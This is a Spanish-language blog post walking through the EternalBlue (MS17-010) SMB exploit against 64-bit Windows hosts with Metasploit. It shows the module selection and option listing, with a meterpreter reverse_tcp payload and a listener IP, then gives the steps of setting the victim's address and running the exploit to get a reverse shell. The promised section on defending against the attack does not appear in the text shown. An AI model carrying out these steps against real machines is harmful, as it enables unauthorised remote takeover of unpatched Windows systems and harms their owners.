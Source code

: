 ```yaml
---
title: Eternalblue
published: true
---
```


* Confidencialidad: Totalmente comprometida.
* Integridad: Totalmente comprometida.
* Disponibilidad: Totalmente comprometida.
* Ataque: A traves de la red (Puerto 445).

Buenas a todos, hoy vengo a compartir el uso de un exploit que nos permitira comprometer máquinas Windows de 64 bits, ademas de ello, aprenderemos a como evitar ser comprometidas por este exploit.

## ¿En que consiste eternalblue?

Eternalblue es un exploit que nos permite vulnerar máquinas Windows Vista SP2, Windows Server 2008 SP2 y R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold y R2, Windows RT 8.1, Windows 10 Gold 1511 y 1607, y Windows Server 2016 de 64 bits aprovechando una vulnerabilidad en el SMB (Server Message Block). Lo interesante de este exploit, es que no nos hará falta hacer una escalación de privilegios previa, debido a que desde el primer momento ya seremos administradores de la máquina, comprometiéndola por completo. Y todo esto a través de la red (Puerto 445).

## ¿Como atacar usando este exploit?
Para usar este exploit, usaremos [Metasploit Framework](https://www.metasploit.com/).

* Primero, seleccionaremos el exploit:

```
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.13-dev-                         ]
+ -- --=[ 2176 exploits - 1153 auxiliary - 399 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
* Una vez seleccionado el exploit podremos hacer un "show options" para ver los parámetros que debemos configurar:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.158    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
* Ahora que sabemos que parámetros nos permite configurar el exploit, cambiaremos los necesarios. Primero, tendremos que saber la IP de la máquina víctima. La configuraremos con "set RHOST [IP de la victima]".

* Después, comprobaremos si nuestra IP esta correctamente seleccionada, en caso contrario, usaremos "set LHOST [Nuestra IP]".

Eso sería todo, con esos parámetros básicos, ya seriamos capaces de ejecutar el exploit y comprometer la máquina. Para ejecutar el exploit usaremos el comando "run". 

Una vez que la máquina haya sido comprometida, se nos abrirá una shell reversa usando meterpreter (Esta definido por defecto como payload).